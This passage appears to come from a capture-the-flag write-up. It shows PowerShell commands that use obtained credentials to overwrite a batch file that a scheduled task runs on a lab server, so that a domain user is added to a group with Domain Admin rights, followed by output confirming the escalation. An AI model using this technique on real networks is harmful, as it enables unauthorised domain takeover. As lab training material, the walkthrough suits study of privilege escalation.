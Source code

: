 This will add the `Site_Admin` group to domain user `awallace`.

```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { Set-Content -Path "C:\Program Files\keepmeon\add_to_site_admin.bat" -Value "net group site_admin awallace /add /domain" }
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { cat "C:\Program Files\keepmeon\add_to_site_admin.bat" }
net group Site_Admin awallace /add /domain
```

> Note: You can add `Site_Admin` group to any domain user.

**After waiting for 5 minutes or so, `awallace` domain user has `Site_Admin` group:**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { net group Site_Admin /domain }
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
awallace                 
The command completed successfully.
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { whoami /groups }

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes                                                     
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Certificate Service DCOM Access      Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                       Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group             
ACUTE\Domain Admins                          Group            S-1-5-21-1786406921-1914792807-2072761762-512  Mandatory group, Enabled by default, Enabled group             
ACUTE\Managers                               Group            S-1-5-21-1786406921-1914792807-2072761762-1111 Mandatory group, Enabled by default, Enabled group             
ACUTE\Site_Admin                             Group            S-1-5-21-1786406921-1914792807-2072761762-2102 Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group             
ACUTE\Denied RODC Password Replication Group Alias            S-1-5-21-1786406921-1914792807-2072761762-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```
